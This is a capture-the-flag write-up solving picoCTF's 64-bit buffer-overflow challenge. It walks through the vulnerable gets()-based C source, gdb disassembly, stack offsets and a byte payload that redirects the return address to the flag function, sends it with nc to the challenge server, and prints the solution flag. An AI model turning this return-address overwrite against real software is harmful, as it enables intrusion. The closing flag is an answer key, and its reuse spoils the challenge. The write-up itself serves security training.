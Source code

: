 ```yaml
---
layout: writeup
category: picoCTF
chall_description: https://i.imgur.com/C12B482.png
points: 200
solves: 2473
tags: picoCTF pwn pwn/buffer-overflow
date: 1337-01-01
comments: false
---
```


Overflow x64 code  
Most problems before this are 32-bit x86. Now we'll consider 64-bit x86 which is a little different! Overflow the buffer and change the return address to the flag function in this [program](https://github.com/Nightxade/ctf-writeups/tree/master/assets/CTFs/picoCTF/x64vuln). Download [source](https://github.com/Nightxade/ctf-writeups/tree/master/assets/CTFs/picoCTF/x64vuln.c).  
`nc saturn.picoctf.net [port #]`  

---

We're given a binary ELF file and a C source file. Here's the C source:  

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```

First things first, create a `flag.txt` file and enter whatever text you’d like so we can run the program in our local machine.  
`chmod +x vuln` to enable execution  
`gdb vuln` to enter debugger  
`disass vuln`:  
```
Dump of assembler code for function vuln:

   0x00000000004012b2 <+0>:     endbr64 
   0x00000000004012b6 <+4>:     push   %rbp
   0x00000000004012b7 <+5>:     mov    %rsp,%rbp
   0x00000000004012ba <+8>:     sub    $0x40,%rsp
   0x00000000004012be <+12>:    lea    -0x40(%rbp),%rax
   0x00000000004012c2 <+16>:    mov    %rax,%rdi
   0x00000000004012c5 <+19>:    mov    $0x0,%eax
   0x00000000004012ca <+24>:    call   0x401100 <gets@plt>
   0x00000000004012cf <+29>:    nop
   0x00000000004012d0 <+30>:    leave  
   0x00000000004012d1 <+31>:    ret
End of assembler dump.
```

   `0x00000000004012b7 <+5>:     mov    %rsp,%rbp`
This instruction makes it so that `rsp` and `rbp` point to the same address  
   `0x00000000004012ba <+8>:     sub    $0x40,%rsp`  
This instruction creates 0x40, i.e. 64, bytes of space.  

Currently, the stack looks like this:  

|Stack                  |Stack Offset   |
|:----------------------|:--------------|
|Return Address (rdi)   |0x48 - 0x56    |
|Base Pointer (rbp)     |0x40 - 0x48    |
|0x40 bytes of space    |0x0 - 0x40     |
|Stack Pointer (rsp)    |0x0            |

Given that the vuln function utilizes the gets function for input, we know we can perform a buffer overflow attack to overwrite the return address.  

Let’s dynamically confirm where the input is stored on the stack:  

`b *vuln+29` to set a breakpoint right after the call function finishes.  
`r` to run the function  
Enter whatever input you can recognize in hex form.  
`x/100x $rsp` to check the stack  
You should see something like the following in the first few rows:  

    0x7fffa44053b0: 0x61616161      0x61616161      0x00616161      0x00007fc6
    0x7fffa44053c0: 0x6777c780      0x00007fc6      0x675e3765      0x00007fc6
    0x7fffa44053d0: 0x00000000      0x00000000      0xa4405420      0x00007fff

Note that our input (I entered ‘aaaaaaaaaaa’) shows up in the beginning of the stack. Thus, our input is definitely located at `$rsp+0x0`
`disass flag`:  
```
Dump of assembler code for function flag:
   0x0000000000401236 <+0>:     endbr64 
   0x000000000040123a <+4>:     push   %rbp
   0x000000000040123b <+5>:     mov    %rsp,%rbp
   0x000000000040123e <+8>:     sub    $0x50,%rsp
   0x0000000000401242 <+12>:    lea    0xdbf(%rip),%rsi        # 0x402008
   0x0000000000401249 <+19>:    lea    0xdba(%rip),%rdi        # 0x40200a
   0x0000000000401250 <+26>:    call   0x401130 <fopen@plt>
   0x0000000000401255 <+31>:    mov    %rax,-0x8(%rbp)
   0x0000000000401259 <+35>:    cmpq   $0x0,-0x8(%rbp)
   0x000000000040125e <+40>:    jne    0x401289 <flag+83>
   0x0000000000401260 <+42>:    lea    0xdac(%rip),%rdx        # 0x402013
   0x0000000000401267 <+49>:    lea    0xdba(%rip),%rsi        # 0x402028
   0x000000000040126e <+56>:    lea    0xde8(%rip),%rdi        # 0x40205d
   0x0000000000401275 <+63>:    mov    $0x0,%eax
   0x000000000040127a <+68>:    call   0x4010e0 <printf@plt>
   0x000000000040127f <+73>:    mov    $0x0,%edi
   0x0000000000401284 <+78>:    call   0x401140 <exit@plt>
   0x0000000000401289 <+83>:    mov    -0x8(%rbp),%rdx
   0x000000000040128d <+87>:    lea    -0x50(%rbp),%rax
   0x0000000000401291 <+91>:    mov    $0x40,%esi
   0x0000000000401296 <+96>:    mov    %rax,%rdi
   0x0000000000401299 <+99>:    call   0x4010f0 <fgets@plt>
   0x000000000040129e <+104>:   lea    -0x50(%rbp),%rax
   0x00000000004012a2 <+108>:   mov    %rax,%rdi
   0x00000000004012a5 <+111>:   mov    $0x0,%eax
   0x00000000004012aa <+116>:   call   0x4010e0 <printf@plt>
   0x00000000004012af <+121>:   nop
   0x00000000004012b0 <+122>:   leave  
   0x00000000004012b1 <+123>:   ret    
End of assembler dump.
```

The important thing here is the address of the flag function, `0x0000000000401236`.  
We need to overwrite the return address, which is located at offset `$rsp+0x48`. (This is because there is 0x40 bytes of space between the stack pointer and base pointer and the base pointer itself is 0x8 bytes since this is x64).  
We can send a hex-encoded input to ./vuln to do this.  

<pre 
  class="command-line" 
  data-prompt="kali@kali $"
><code class="language-bash">python -c "print('a'*72)" > input
echo -ne '\x36\x12\x40\x00\x00\x00\x00\x00' >> input</code>
</pre>

The first command writes 72 ‘a’ characters to the file input for the buffer, i.e. to get to offset 0x48.  
The second part writes the hex values of the flag function address, which we cannot easily write in ascii. Note that the bytes are written in reverse order because of little endianness.  

Run ./vuln < input, which should return the contents of your `flag.txt` file.  

---

If you instead received a segmentation fault without the flag, check the second hint of the problem, which states: Jump to the second instruction (the one after the first push) in the `flag` function, if you're getting mysterious segmentation faults.  

To fix this, we need to jump to the instruction right after the first push in the `flag` function:  
`0x000000000040123b <+5>:     mov    %rsp,%rbp`  

This has address `0x000000000040123b`, so we we only need to slightly modify our commands:  

<pre 
  class="command-line" 
  data-prompt="kali@kali $"
><code class="language-bash">python -c "print('a'*72)" > input
echo -ne '\x3b\x12\x40\x00\x00\x00\x00\x00' >> input</code>
</pre>

Now you should get your `flag.txt` file contents.  

---

Once you receive your `flag.txt` file contents, the challenge is done!  
Run `nc -q 2 saturn.picoctf.net [port #] < input`, which will return your flag.  
Note that `-q 2` makes the connection wait 2 seconds after the EOF (end of file) before closing input, which allows us to receive the flag.  

    picoCTF{b1663r_15_b3773r_d95e02b6}
